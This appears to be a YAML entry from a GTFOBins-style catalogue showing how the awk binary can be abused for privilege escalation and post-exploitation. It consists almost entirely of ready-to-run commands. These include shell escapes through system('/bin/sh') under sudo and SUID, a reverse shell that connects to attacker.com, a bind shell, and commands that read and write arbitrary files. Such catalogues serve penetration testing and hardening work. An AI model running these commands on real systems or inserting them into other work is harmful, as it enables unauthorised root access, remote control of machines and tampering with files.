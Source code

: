 ```yaml
---
functions:
  execute-interactive:
    - code: awk 'BEGIN {system("/bin/sh")}'
  sudo-enabled:
    - code: sudo awk 'BEGIN {system("/bin/sh")}'
  suid-limited:
    - code: ./awk 'BEGIN {system("/bin/sh")}'
  reverse-shell-non-interactive:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        RHOST=attacker.com
        RPORT=12345
        awk -v RHOST=$RHOST -v RPORT=$RPORT 'BEGIN {
            s = "/inet/tcp/0/" RHOST "/" RPORT;
            while (1) {printf "> " |& s; if ((s |& getline c) <= 0) break;
            while (c && (c |& getline) > 0) print $0 |& s; close(c)}}'
  bind-shell-non-interactive:
    - description: Run `nc target.com 12345` on the attacker box to connect to the shell.
      code: |
        LPORT=12345
        awk -v LPORT=$LPORT 'BEGIN {
            s = "/inet/tcp/" LPORT "/0/0";
            while (1) {printf "> " |& s; if ((s |& getline c) <= 0) break;
            while (c && (c |& getline) > 0) print $0 |& s; close(c)}}'
  file-read:
    - code: |
        LFILE=file_to_read
        awk '//' "$LFILE"
  file-write:
    - code: |
        LFILE=file_to_write
        awk -v LFILE=$LFILE 'BEGIN { print "data" > LFILE }'

---
```

